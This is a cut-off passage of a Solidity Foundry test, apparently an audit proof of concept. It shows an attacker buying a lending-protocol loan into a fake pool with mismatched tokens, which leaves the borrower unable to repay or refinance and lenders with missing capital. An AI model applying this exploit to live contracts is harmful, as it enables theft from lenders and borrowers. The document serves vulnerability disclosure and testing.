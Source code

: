 ```solidity

        Pool memory fakePoolInfoAfter = lender.getPoolInfo(fakePoolId);
        Loan memory loanAfter = lender.getLoanInfo(loanId);

        // assert that the attacker was able to purchase the loan even if the pool's tokens are different compared to the loan's tokens
        assertTrue( fakePoolInfoAfter.loanToken != loanAfter.loanToken );
        assertTrue( fakePoolInfoAfter.collateralToken != loanAfter.collateralToken );

        // assert that the lender of the loan's lender is indeed the attacker
        assertEq( lender1, loanBefore.lender );
        assertEq( fakePoolInfoAfter.lender, loanAfter.lender );
        assertEq( fakePoolInfoAfter.lender, attacker );

        // attacker pool variables have been updated
        // The fakePool.poolBalance has been reduced by loan.debt + lenderInterest + protocolInterest
        assertEq(fakePoolInfoBefore.poolBalance, 1000 ether);
        assertLt(fakePoolInfoAfter.poolBalance, fakePoolInfoBefore.poolBalance);
        
        // fakePool.outstandingLoans has been increased by loan.debt + lenderInterest + protocolInterest
        assertEq(fakePoolInfoBefore.outstandingLoans, 0);
        assertGt(fakePoolInfoAfter.outstandingLoans, fakePoolInfoBefore.outstandingLoans);

        // At this point we know that the platform is already broken (we demostrated this with also another issue)
        // 1) The loan cannot be seized/bought unless the ATTACKER decides so. The attacker also will not call `giveLoan`
        // 2) The borrower cannot refinance the loan (changing the pool) because `refinance` function use a `poolId` generated by the `loan` info
        //    and this pool does not exist yet because poolIdFromLoan = (attacker, loanToken, collateralToken)
        //    while the pool created by the attackr is identified by the fakePoolId = (attacker, fakeLoanToken, fakeCollateralToken)
        //    because of this the `borrow` operation will fail for an underflow error when it tries to call `_updatePoolBalance`
        // 3) The borrower cannot repay the loan for the same reason of point (2)
        // 4) The protocol has already accumulated a loss because the loan has been purchased by a Pool that have NOT provided
        //    any loanToken. This mean that when the original pool1 owner will remove his capital he will remove the capital provided
        //    by someone else. At some point there will be a lender that will not be able to remove the capital because it will not be
        //    available in the Lender contract!

        // Loan cannot be repaid by Borrower
        {
            loans = new uint256[](1);
            loans[0] = loanId;

            // Revert because of underflow
            vm.prank(borrower);
            vm.expectRevert(stdError.arithmeticError);
            lender.repay(loans);
        }


        // Loan cannot be refinanced by Borrower
        {
            Refinance[] memory rs = new Refinance[](1);
            rs[0] = Refinance({
                loanId: loanId,
```
